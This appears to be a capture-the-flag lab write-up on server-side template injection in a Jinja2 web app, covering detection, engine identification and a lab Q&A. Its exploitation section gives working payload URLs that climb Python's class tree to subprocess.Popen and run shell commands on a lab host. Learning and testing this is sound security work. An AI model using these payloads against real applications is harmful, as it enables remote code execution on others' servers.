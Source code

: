 
# ***SSTI***

## *Detection*

The vulnerable url is http://10.10.55.134:5000/profile/$USERNAME

A fast way of detecting SSTI vulnerability is injecting the combination of these
symbols:

```
${{<%[%'"}}%
```

- What sequence of characters causes the application to throw an error?

> {{

---

## *Identification*

- What template engine is being used in this application?

> jinja2

---

## *Syntax*

- How do you start a comment in Jinja2?

> {#

---

## *Exploitation*

The idea is to climb up the inheritence tree to "object", and the climb down the tree
to the classes, that are able to start subprocess:

1. Pick a class: http://10.10.55.134:5000/profile/{{''.__class__}}

> Welcome to the profile of <class 'str'>!

2. List the parents: http://10.10.55.134:5000/profile/{{''.__class__.__mro__}}

> Welcome to the profile of (<class 'str'>, <class 'object'>)!

3. Pick object and list its children: http://10.10.55.134:5000/profile/{{''.__class__.__mro__[1].__subclasses__()}}

> ...List of children. Find the index of "subprocess.Popen"

4. Pick subprocess.Popen: http://10.10.55.134:5000/profile/{{''.__class__.__mro__[1].__subclasses__()[401]}}

> Welcome to the profile of <class 'subprocess.Popen'>!

5. Invoke constructor with a command you'd like and read the output with "communicate()"
method: http://10.10.55.134:5000/profile/{{''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate()}}

> Welcome to the profile of (b'jake\n', None)!

- What is the result of the "whoami" shell command?

> jake

---

## *Case Study*

- What payload was used to confirm SSTI in Uber?

> {{ '7'*7 }}
